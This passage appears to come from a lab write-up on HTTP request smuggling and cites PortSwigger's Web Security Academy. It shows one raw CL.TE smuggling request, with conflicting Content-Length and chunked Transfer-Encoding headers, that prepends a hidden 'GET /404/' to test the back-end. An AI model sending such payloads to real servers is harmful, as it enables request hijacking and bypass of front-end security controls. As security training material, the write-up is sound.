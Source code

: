 References:

-   https://portswigger.net/web-security/request-smuggling/exploiting

![img](media/a2787e7357455ee0bf4df97cd4aba6e2.png)

We can use a previous payload to find it is possible to redirect to /404:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Length: 66
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404/ HTTP/1.1
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
